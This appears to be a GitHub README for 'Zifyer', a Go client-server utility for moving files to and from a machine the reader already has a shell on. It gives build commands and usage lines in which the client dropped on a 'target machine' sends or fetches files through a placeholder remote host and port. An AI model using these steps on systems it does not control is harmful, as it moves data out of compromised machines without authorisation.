 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to machine mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>


<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>


<p>./Zifyer_Server -H "I.p to host the server" -p "Port" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer_Server -H "Your I.P" -p 9000 </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

